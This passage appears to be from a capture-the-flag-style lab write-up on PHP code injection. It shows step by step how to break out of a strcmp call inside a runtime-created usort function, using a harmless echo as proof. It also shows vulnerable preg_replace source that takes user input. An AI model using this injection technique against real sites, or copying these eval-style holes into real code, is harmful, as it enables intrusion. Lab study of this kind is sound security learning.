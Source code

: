 Let's deconstruct it step by step. Adding **);** closes the call to strcmp, but leaves garbage behind and also an unclosed {} , because the end curly bracket is now part of the discarded code: 


``` plain
function LAMBDA_TEMP_FUNCNAME (a,b){return strcmp($a->'.$order.');,$b->'.$order.');}
```


Adding a closing curly bracket correctly closes the format string, so now we have:


``` plain
function LAMBDA_TEMP_FUNCNAME (a,b){return strcmp($a->'.$order.');},$b->'.$order.');}
```


To test where I was with the injection, I left it at that and got this error:


``` plain
Parse error: syntax error, unexpected ',' in /var/www/codeexec/example2.php(22) : runtime-created function on line 1 Warning: usort() expects parameter 2 to be a valid callback, no array or string given in /var/www/codeexec/example2.php on line 22 
```


So the code picks up after the curly bracket, we know we have to comment out the rest. And between the curly bracket and the comment characters we can put our code:


``` plain
function LAMBDA_TEMP_FUNCNAME (a,b){return strcmp($a->'.$order.');}echo 'INJECTION SUCCESSFUL';//,$b->'.$order.');}
```


And the result:


{% img center /images/pentest/webpentester/codeinj2.png 'code injection 2' 'code injection' %}


eval() now sees a strcmp, which is executed (but only with 1 parameter, hence the warning). Then eval goes further, sees our code and executes it (the warning doesn't stop the execution). And finally, eval reaches the leftovers, which have been commented out, so it does nothing.

This here was my favorite part in all the challenge!

**Example 3**

Here we have the familiar hello hacker message, but with a twist on the URL: http://192.168.217.138/codeexec/example3.php?new=hacker&pattern=/lamer/&base=Hello%20lamer

Let's see the code:


``` php
<?php
	echo preg_replace($_GET["pattern"], $_GET["new"], $_GET["base"]);

?>
```


Ok, preg_replace searches inside the base parameter (Hello lamer) for matches to the pattern parameter (hacker) and replaces them with what's in the new parameter (hacker). 
